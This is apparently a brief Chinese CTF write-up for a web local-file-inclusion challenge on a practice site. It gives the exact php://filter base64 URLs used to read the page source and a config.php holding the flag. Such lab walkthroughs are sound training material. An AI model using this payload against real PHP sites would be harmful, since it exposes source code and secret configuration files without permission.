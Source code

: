 # inndy web LFI
* [題目網址](https://hackme.inndy.tw/lfi/)
1. 查看原始碼，發現有個被註解掉的網址:?page=pages/flag
2. 進去 https://hackme.inndy.tw/lfi/?page=pages/flag 看到 Can you read the flag?，加上題目提示說用 php://filter，可以猜測有些 php 的特殊字符被轉換成其他東西，所以現在用 base64 印出原本內容
3. https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/flag ，把得到的 base64 字串 decode，結果出現 Can you read the flag<?php require('config.php'); ?>? ，就是說在 pages 中，有個檔案叫做 config.php
4. https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/config，又得到 base64 字串，拿去 decode 就是 flag 了